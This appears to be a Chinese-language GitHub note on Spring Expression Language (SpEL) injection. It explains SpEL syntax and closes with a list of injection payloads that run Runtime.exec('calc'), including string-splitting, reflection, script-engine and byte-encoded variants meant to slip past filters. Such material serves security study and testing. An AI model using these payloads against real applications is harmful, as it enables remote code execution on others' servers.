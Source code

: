 案例：
```
String spel ="T(java.lang.Runtime).getRuntime().exec(\"calc\")"; 
//T()包裹后可以直接调用静态方法和静态属性。
ExpressionParser parser=new SpelExpressionParser();
Expression expression=parser.parseExpression(spel);
EvaluationContext context=new StandardEvaluationContext();
expression.getValue(context);

```

CVE复现：<https://cloud.tencent.com/developer/article/2144995>
实战案例：<https://github.com/datageartech/datagear/issues/32>



^
### **SpEL表达式 #{} 和 {} 和 # 的使用用法**
1. #{} 表达式
   #{} 用于在 Spring 配置文件中表示需要解析的 SpEL 表达式。主要用于注解、XML 配置和属性文件中，通常在需要动态计算的场景下使用。
```java 
@Value("#{systemProperties['user.home']}")
private String userHome;
```
2. `#` 符号   
`#` 符号在 SpEL 表达式中用于引用变量或方法。通常在解析上下文中使用，以引用方法、属性或在表达式中定义的变量。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext context = new StandardEvaluationContext();
context.setVariable("number", 42);

Integer number = parser.parseExpression("#number").getValue(context, Integer.class);
```
3. ` '' `字符串  
   用于在 SpEL 表达式中表示字符串文字。字符串文字在 SpEL 表达式中必须用单引号括起来，以区分其他类型的值（如数字、变量等）。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
String result = parser.parseExpression("'Hello ' + 'World'").getValue(String.class);
```



 
^
## **SpEL表达式注入payload**
```
// 执行exec
T(java.lang.Runtime).getRuntime().exec("calc.exe");
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe");

 ```
```
T(java.lang.Ru" + "ntime).getRuntime().exec('calc');

String spel = "T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[]))" +".invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")" +".getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass()" +".forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"cmd\",\"/C\",\"calc\"})\n";

new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')")";

T(java.lang.Runtime).getRuntime().exec("calc")
T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))
```
更多
```
// PoC原型
```